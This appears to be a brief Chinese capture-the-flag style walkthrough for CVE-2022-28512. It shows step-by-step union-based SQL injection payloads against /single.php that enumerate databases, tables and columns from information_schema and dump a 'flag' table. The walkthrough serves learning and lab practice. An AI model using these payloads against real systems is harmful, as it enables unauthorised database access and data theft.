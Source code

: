 # CVE-2022-28512
![](vx_images/581553387669192.png)
访问/single.php
抓包
![](vx_images/47146379169737.png)
1'报错,加上%23显示正常,判断闭合符为'
1' order by 9%23,列数为10时报错,则列数为9
![](vx_images/453464434536501.png)

-1' union select 1,2,3,4,5,6,7,8,9%23
回显位为2,3,4,7,8
![](vx_images/112045827510903.png)
首先爆库:
-1' union select 1,database(),3,group_concat(schema_name),5,6,7,8,9 from information_schema.schemata%23

![](vx_images/53535436636182.png)
报表:
-1' union select 1,database(),3,group_concat(table_name),5,6,7,8,9 from information_schema.tables where table_schema=database()%23
![](vx_images/313156665586859.png)
爆字段:
-1' union select 1,database(),3,group_concat(column_name),5,6,7,8,9 from information_schema.columns where table_name=flag%23
![](vx_images/64095959875799.png)

-1' union select 1,database(),3,group_concat(flag),5,6,7,8,9 from flag%23
![](vx_images/501397530734647.png)
